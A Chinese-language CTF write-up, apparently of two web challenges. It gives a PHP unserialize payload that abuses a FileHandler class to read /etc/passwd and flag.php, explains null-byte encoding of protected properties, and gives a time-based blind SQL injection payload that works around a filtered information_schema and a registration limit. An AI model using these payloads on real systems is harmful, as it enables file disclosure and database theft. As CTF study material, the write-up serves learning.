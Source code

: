 弱类型 op = 2.0 或者字符 "2"也可
构造
```php
<?php
class FileHandler {

    public $op;
    public $filename;
    public $content;

    function __construct() {
        $this->op = 2.0;
        $this->filename = "/etc/passwd";
    }
  }
?>
```
![Y3bQEV.png](https://s1.ax1x.com/2020/05/10/Y3bQEV.png)

但是尝试读flag.php就出现问题,显示为空

最后终测试发现，content值删除就可读php文件，原因不明。。。
```
O:11:"FileHandler":3:{s:5:"2op";d:2;s:8:"filename";s:8:"flag.php";s:10:"\00*\00content";N;}
```
这种方式可以读php

![Y3qhLR.png](https://s1.ax1x.com/2020/05/10/Y3qhLR.png)

正解为（p神）
PHP序列化的时候private和protected变量会引入不可见字符\x00，输出和复制的时候可能会遗失这些信息，导致反序列化的时候出错。

private属性序列化的时候会引入两个\x00，注意这两个\x00就是ascii码为0的字符。这个字符显示和输出可能看不到，甚至导致截断，如图1，url编码后就可以看得很清楚了。
同理，protected属性会引入\x00*\x00。

此时，为了更加方便进行反序列化Payload的传输与显示，我们可以在序列化内容中用大写S表示字符串，此时这个字符串就支持将后面的字符串用16进制表示。

因此payload为
```
O:11:"FileHandler":3:{S:5:"\00*\00op";d:2;S:11:"\00*\00filename";s:8:"flag.php";s:10:"\00*\00content";N;}
```

# trace

一道注入题目，基本没什么过滤，但过滤了information_schema ，还有限制了注册20次，多了就没法注入。

因此想达到 能达到延时注入 同时又不能执行insert 语句
 https://blog.csdn.net/hwz2311245/article/details/53941523

 网上发现这么一篇文章,利用如下payload可以达到无限制注入

 ```sql
 ' || (SELECT CASE WHEN <condition> THEN SLEEP(3) ELSE 'anyValue' END FROM ((SELECT 'value1' AS nameIt) UNION (SELECT 'value2' AS nameIt)) TEST) || '
 ```
 语句成功执行的前提是 ||被当作连接符，通过如下可以设置
 ![YNu13t.png](https://s1.ax1x.com/2020/05/12/YNu13t.png)
